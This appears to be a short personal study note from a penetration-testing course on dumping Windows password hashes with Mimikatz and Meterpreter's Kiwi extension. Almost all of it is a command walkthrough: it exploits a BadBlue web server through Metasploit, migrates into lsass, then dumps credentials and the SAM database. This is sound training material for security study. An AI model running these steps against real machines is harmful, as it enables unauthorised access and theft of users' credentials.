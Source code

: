 ```yaml
---
up: "[[Windows Post Exploitation]]"
---
```


# Dumping Hashes with Mimikatz

- Windows post exploitation tool
- Allows extraction of passwords and hashes from the local SAM database
- Kiwi is the MSF meterpreter extension

## Demonstration

```bash
> db_nmap -sV <ip>
# BadBlue Enterprise Edition running
> use exploit/windows/http/badblue_passthru
> set target <target>
> run
m> sysinfo
m> pgrep lsass
m> migrate <pid>
m> load kiwi
m> creds_all
m> lsa_dump_secrets
m> upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe
m> .\mimikatz.exe
$ privilege::debug
$ sekurlsa::logonpassword
$ lsadump::sam
```
